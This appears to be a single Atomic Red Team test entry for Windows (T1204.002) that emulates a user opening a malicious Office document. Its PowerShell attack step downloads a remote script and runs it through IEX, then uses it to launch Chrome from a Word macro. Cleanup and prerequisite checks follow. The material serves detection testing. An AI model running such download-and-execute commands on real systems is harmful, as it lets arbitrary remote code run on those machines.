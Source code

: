 **Supported Platforms:** Windows


**auto_generated_guid:** a19ee671-ed98-4e9d-b19c-d1954a51585a






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1204.002\src\chromeexec-macrocode.txt" -officeProduct "Word" -sub "ExecChrome"
```

#### Cleanup Commands:
```powershell
Stop-Process -name mshta
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  Stop-Process -Name "winword"
  exit 0 } catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: Google Chrome must be installed
##### Check Prereq Commands:
```powershell
try {
  $chromeInstalled = (Get-Item (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe').'(Default)').VersionInfo.FileName
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Google Chrome manually to meet this requirement"
```




<br/>
<br/>
